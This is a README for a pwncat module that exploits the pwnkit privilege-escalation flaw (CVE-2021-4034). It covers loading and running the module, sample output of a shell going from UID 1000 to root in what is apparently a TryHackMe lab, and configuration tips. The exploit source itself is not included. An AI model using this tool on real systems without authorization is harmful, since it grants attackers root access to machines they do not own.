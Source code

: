 # pwncat_pwnkit

## Introduction
The purpose of this module is to attempt to exploit CVE-2021-4034 (pwnkit) on a target when using pwncat.

There is no need to setup any directories, compile any source or even have gcc on the remote target; the pwnkit module takes care of this automatically using the pwncat framework.

## Setup and Use
- Simply copy `pwnkit.py` somewhere on your host where pwncat-cs is installed. ie: /home/user/pwncat_mods
- In pwncat, simply type: `load /home/user/pwncat_mods`
- To confirm the module loaded, type: `search pwnkit`. You should see something like this:
```
(local) pwncat$ search pwnkit
                                                      Results                                                      
                   ╷                                                                                               
  Name             │ Description                                                                                   
 ══════════════════╪══════════════════════════════════════════════════════════════════════════════════════════════ 
  pwnkit           │ Exploit CVE-2021-4034 to privesc to root
``` 
- To execute, simply type `run pwnkit`. If it's successful, you should see the UID change to 0, and now be root. ie:
```
(local) pwncat$ run pwnkit
[00:12:15] 10.10.184.131:47148: ran pwnkit. UID : Before(1000) | After(0)                            manager.py:955
           Module pwnkit completed successfully                                                          run.py:100
(local) pwncat$                                                                                                    
(remote) root@pwnkit:/# id
uid=0(root) gid=0(root) groups=0(root),1000(tryhackme)
```

## Tips
- If you don't want to always call `load`, you can have pwncat automatically load this module on startup by placing it in `~/.local/share/pwncat/modules`
- To use the cross-compiler to build the exploit on your machine and upload it to the target, you need to set the **cross** variable in your pwncatrc file. This file is typically found at ~/.local/share/pwncat/pwncatrc`. ie:
```
# Set the gcc path
set cross "/usr/bin/gcc"
```

## Thanks
A special shout out to _Caleb Stewart_ for being helpful as I pushed through learning the pwncat framework from a dev perspective. I will get a pull request to put this in the main pwncat escalate module someday when I have free time... I promise. :-) 
